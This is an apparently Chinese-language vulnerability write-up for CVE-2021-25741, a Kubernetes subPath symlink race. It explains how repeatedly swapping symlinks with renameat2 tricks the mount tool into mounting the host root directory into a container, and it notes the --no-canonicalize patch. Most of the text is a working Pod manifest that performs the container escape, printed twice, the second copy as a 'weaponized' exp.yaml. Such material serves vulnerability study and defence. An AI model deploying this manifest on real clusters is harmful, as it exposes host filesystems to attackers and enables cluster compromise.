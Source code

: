 ````yaml
apiVersion: v1
kind: Pod
metadata:
  name: cve202125741
spec:
  containers:
  - name: prep-container
    image: ubuntu
    command: ["/bin/sh", "-ec", "mkdir /mnt/data/testpath2; ln -s / /mnt/data/testpath1; while true; do ./renameat2 -e /mnt/data/testpath2 /mnt/data/testpath1; done"]
    volumeMounts:
    - name: my-volume
      mountPath: /mnt/data
  - name: my-container
    image: ubuntu
    command: ["/bin/sh", "-ec", "ls /mnt/data; sleep 999999"]
    volumeMounts:
    - mountPath: /mnt/data
      name: my-volume
      subPath: testpath2
  volumes:
  - name: my-volume
    emptyDir: {}
````

* 在cve-2017-1002101的补丁中，已经在全流程中解析了符号链接并且判断解析后的路径是否在卷中，但是最终挂载的部分使用了linux下的mount工具，该工具在默认情况下解析符号链接，此时在k8s判断路径有效传入mount工具的过程中可以变更符号链接指向，使得mount工具将主机的目录挂载进容器中
* 在进行此次攻击时，使用renameat2工具，不断交换testpath2和testpath1的指向，第二个容器挂载testpath2，当k8s校验时testpath2指向卷内目录而传入mount时指向根目录时，即可将根目录挂载到容器内
* ![img](https://lh3.googleusercontent.com/Fb7JNY1-fB2aJd81xl6axtqxBeFG-hT_-knHw6UZEas7OU7g2av8blc6ZmwadIetOEy5cYBNqZYge8sr_G66A04ruxbf9FX10Bfm0sUKbY3JPsz2StBacW8r6qDLCBmPGHPfthtJX5uUasqAJprKh91WCg7yhmQtajCNYVlWaVzhYSos=w640-h174)

### 补丁分析

修复方案中，在调用mount时传递了–no-canonicalize参数，命令mount不再解析符号链接

### 武器化利用

````yaml
# exp.yaml
apiVersion: v1
kind: Pod
metadata:
  name: cve202125741
spec:
  containers:
  - name: prep-container
    image: ubuntu
    command: ["/bin/sh", "-ec", "mkdir /mnt/data/testpath2; ln -s / /mnt/data/testpath1; while true; do ./renameat2 -e /mnt/data/testpath2 /mnt/data/testpath1; done"]
    volumeMounts:
    - name: my-volume
      mountPath: /mnt/data
  - name: my-container
    image: ubuntu
    command: ["/bin/sh", "-ec", "ls /mnt/data; sleep 999999"]
    volumeMounts:
    - mountPath: /mnt/data
      name: my-volume
      subPath: testpath2
  volumes:
  - name: my-volume
    emptyDir: {}
````